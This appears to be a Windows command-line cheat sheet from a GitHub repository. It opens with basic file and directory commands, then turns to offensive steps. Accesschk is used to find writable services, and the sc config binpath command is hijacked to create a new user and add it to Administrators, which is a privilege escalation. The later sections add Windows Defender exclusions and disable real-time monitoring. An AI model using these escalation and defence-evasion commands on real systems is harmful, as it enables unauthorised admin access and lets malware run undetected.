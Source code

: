 # windows

| Command                     | Description                                            |
| ----------------------------| ------------------------------------------------------ |
| `cd path\to\folder`         | Change directory                                       |
| `cd ..`                     | Go to the parent folder                                |
| `cd`                        | Show current directory                                 |
| `dir`                       | List folder contents                                   |
| `mkdir NewFolder`           | Create a new folder                                    |
| `echo text > file.txt`      | Create a file                                          |
| `del file.txt`              | Delete a file                                          |
| `rmdir FolderName`          | Remove an empty folder                                 |
| `rmdir /s FolderName`       | Remove folder and its contents                         |
| `copy source.txt dest.txt`  | Copy a file                                            |
| `move source.txt dest.txt`  | Move a file                                            |
| `program.exe`               | Execute a program                                      |
| `findstr "text" file.txt`   | Search for specific text in a file (similar to `grep`) |
| `dir | findstr ".txt"`      | List `.txt` files in the current folder                |
| `dir | findstr "report"`    | List files with "report" in the name                   |
| `dir /S | findstr "report"` | List files with "report" in the name in subfolders     |

Download Sysinternals Suite:

```cmd
powershell -Command "Invoke-WebRequest -Uri 'https://download.sysinternals.com/files/SysinternalsSuite.zip' -OutFile '.\SysinternalsSuite.zip'"
```

Extract:

```cmd
powershell -Command "Expand-Archive -Path '.\SysinternalsSuite.zip' -DestinationPath '.\SysinternalsSuite'"
```

Check user permissions:

```cmd
accesschk.exe -uwvc "normaluser" * 
```

Add user and assign to Administrators group:

```cmd
sc config <service> binpath="cmd /c cmd.exe /c net user <username> <password> /add && net localgroup Administrators <username> /add"
```

---

## Exclusion

Exclude `C:\Temp` folder from Windows Defender:

```cmd
powershell -Command "Add-MpPreference -ExclusionPath 'C:\Temp'"
```

Check if it was successful:

```cmd
powershell -Command "Get-MpPreference | Select-Object -ExpandProperty ExclusionPath"
```

Remove `C:\Temp` folder from Windows Defender exclusion list:

```cmd
powershell -Command "Remove-MpPreference -ExclusionPath 'C:\Temp'"
```

## Windows Defender

Disable Windows Defender:

```cmd
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $true" 
```

Enable Windows Defender:

```cmd
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $false"
```
